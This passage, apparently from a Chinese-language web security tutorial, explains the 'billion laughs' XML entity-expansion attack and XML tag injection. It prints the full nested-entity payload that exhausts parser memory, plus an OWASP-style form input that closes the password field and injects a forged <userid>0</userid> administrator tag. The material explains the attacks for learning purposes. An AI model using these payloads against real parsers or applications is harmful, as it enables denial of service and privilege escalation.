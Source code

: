这是来自维基百科页面中关于“千亿笑声”XML 片段的一个例子：

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

你可以看到只有一个根元素，`<lolz>&lol9;</lolz>`。当该元素的文本`&lol9;`被展开时（因为它是一个已定义的实体），解析器查看并看到实体`&lol8;`并试图展开它，接着是`&lol7;`，然后是`&lol6;`，依此类推，通过实体列表进行扩展——这就像是不断堆叠的海龟，最终导致内存的膨胀。

结果是，在所有实体扩展处理完成后，这个小的、不到 1 KB 的片段将会生成 10 的 9 次方`lols`，总共使用超过 3 GB 的内存。

千亿笑声攻击不仅仅限于 XML（你可以在 YAML 或任何其他支持引用的文件格式中进行类似的攻击），但它们清楚地展示了一个没有防护的 XXE 漏洞如何造成破坏。

# XML 注入向量

XML 注入和 XML 解析相关的漏洞并不总是从客户端代码中可以观察到——XML 处理链的一部分可能在服务器端处理你的客户端输入时发生。

在 OWASP XML 注入示例中，客户端表单（假设为了讨论的方便，它正在发起一个`GET`请求）将创建一个看起来像这样的 HTTP 请求：

```
Username: james
Password: Thew45p!
E-mail: james.mowry@terran.gov
```

然后，在插入到类似 XML 文档的数据库之前，应用程序将构建一个单独的 XML 节点：

```
<user> 
    <username>james</username> 
    <password>Thew45p!</password> 
    <userid>500</userid>
    <mail>james.mowry@terran.gov</mail>
</user>
```

你可以利用这种行为进行不同种类的注入攻击，包括基于标签的注入。这时，你会在输入中添加一个有效的 XML 标签，通过伪造一个有价值的属性（假设`<userid>`为 0 代表管理员用户），并通过类似这样的 HTTP 请求进行操作：

```
Username: james
Password: Thew45p!</password><!--
E-mail: --><userid>0</userid><mail>james.mowry@terran.gov
```
